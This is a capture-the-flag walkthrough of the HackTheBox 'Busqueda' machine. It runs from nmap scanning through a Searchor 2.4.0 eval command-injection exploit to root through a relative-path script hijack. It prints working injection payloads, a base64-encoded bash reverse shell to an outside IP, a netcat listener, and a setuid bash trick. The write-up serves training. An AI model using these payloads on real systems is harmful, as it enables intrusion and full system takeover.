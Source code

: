 ```yaml
---
author: "0xt0pus"
title: "HackTheBox Busqueda machine Walkthrough"
date: "2024-08-18"
description: ""
tags: ["Hackthebox", "Machine-Walkthrough"]
cover:
    image: "/writeups/busqueda-HackTheBox/cover.jpg"
ShowToc: true
TocOpen: false
---
```



## Enumeration

Run nmap all port scanning with the following command:

```
nmap -p- 10.10.11.208 --min-rate 2500 -T4 -oN nmap/allPorts.txt
```

The following is the nmap all ports output:

![[2.png]]

As the port 22 and 80 are open. Now run the service enumeration to find out the version of services running on the target. 
The following command was used for the service version enumeration. 
```
nmap -A 10.10.11.208 -p 22,80 -oN nmap/ServiceVersion.txt
```

The result of the command shows below:
![[3.png]]

This shows the `searcher.htb` as the hostname. So updated it in the `/etc/hosts` file. 

Visited the website, which is being shown below:

![[5.png]]

At the end, the version of the Searchor is shown, which is `Searchor 2.4.0`. Quickly searched if there's any vulnerabilities related to this version. 
I came to know about the Command Injection vulnerability in this version and found an exploit code for that. 

The exploit code can be used to get a reverse shell in easy way. But there's another manual way, through which the command injection vulnerability can be exploited. I have explained both ways below. 

## Exploitation

### Reverse Shell Through the Exploit Code:

The `exploit.sh` is being downloaded from the following Github repository. 
Link: https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

Command:
```
./exploit.sh http://searcher.htb 10.10.16.17  # For Exploiting the Vulnerability
nc -lvnp 9001 # Listener for the reverse shell
```


The reverse shell is obtained as shown:
![[6.png]]

### Reverse Shell in the Manual Way

Opened Burp Suite for gaining access in manual way. 

The site is sending POST request to `/search` with the parameters `engine` and `query` as shown below:
![[7.png]]

Added a payload with the value of the query parameter to check if its behaviour changes with special characters. 

Added special character list by SecList as the list:
![[8.png]]


After checking I found that it was not giving any result for the characters `' and \`. So, The logic here was, it was executing some python command like eval. 
The logic can be applied that it was doing something like this:
```
eval("print('a')")
```

So, according to the logic the following command will print `aHello`. 
```
a')+print("Hello")#
```

So, tried this

![[9.png]]

It printed `Hello`. It means it is executing out python command. 
In order to get command execution I tried the following command:

```python
__import__('os').system('<CMD>')

__import__('os').system('id')

# Final Payload

a')+__import__('os').system('id')#

```

Run the above after URL encoding and we got a code execution as shown below:
![[10.png]]

Now, we have to get a reverse shell somehow. 

I used the following bash reverse shell:
```bash
bash -i >& /dev/tcp/10.10.16.157/9001 0>&1


# Encoding it as Base64 

echo 'bash -i >& /dev/tcp/10.10.16.157/9001 0>&1' | base64

```

The final Payload:
```bash
┌──(root㉿kali)-[~/Desktop/htb/Busqueda]
└─# echo 'bash -i &> /dev/tcp/10.10.16.17/9001  0>&1  ' | base64
YmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNi4xNy85MDAxICAwPiYxICAK
```

The following will be send as the request
```
a')+__import__('os').system('echo "YmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNi4xNy85MDAxICAwPiYxICAK" | base64 -d | bash')#
```

Got the reverse shell as shown below:
![[11.png]]


## Privilege Escalation 

After gaining the initial access, I explored the current directory. It contain a .git folder. The config of the git repository contains a password as shown below:
![[12.png]]


I tried logging in for the current user with SSH, and I was successful because this was the password for the current user svc. 
I checked for `Sudo` privilege escalation and found that the current user can run the `system-checkup.py` as root. 
The following shows the result of `sudo -l`:
![[13.png]]


I tried, checking the content of this script, but the file was not readable by the current user as shown:

![[15.png]]

The file can only be executed, so I tried executing the file as root user with the following command:

```
sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py
```

The following three commands can be executed with it as shown:
![[16.png]]

Seems like the `docker-inspect` can not be executed as it is:
![[17.png]]

I checked online for its usage and the following command can be used to get details:
```
docker inspect --format='{{json .Config}}' $INSTANCE_ID

# Adjust it according to our usage:

sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' 960873171e2e
```

Run the above command and got this data as shown:
![[19.png]]

This gave us another password, which initially didn't understand. But after further enumeration, I figured out that there was another website running on the `gitea.searcher.htb`. This was found on the apache2 enabled sites as shown:
![[20.png]]


Added this website in the `/etc/hosts` as well and visited it. This was asking for the username and password. So, used administrator as the username and the above found password as the password. I was able to logged in as an administrator here. 

The script we found earlier were listed here and were readable as shown below:
![[21.png]]

So, we can analyse these files to find any vulnerability. 

It is found that when the `full-checkup` argument is provided to the script, it runs `./full-checkup.sh` without full path. So, we can create our own file in any writeable directory and can get reverse shell as root, as root will be executing that file. 


The vulnerable part of the code:
![[23.png]]


Created the following code in the `/dev/shm` with name `full-checkup.sh`:
```bash
#!/bin/bash
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```

The execute permission is being given to the script and run the following command:
```
sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

Now, the root shell is copied to the `/tmp` folder as shown below. The bash shell is being used with the following command.

```bash
/tmp/bash -p
```

The following shows the result of the commands:
![[24.png]]

So, this gives us root access of the machine. 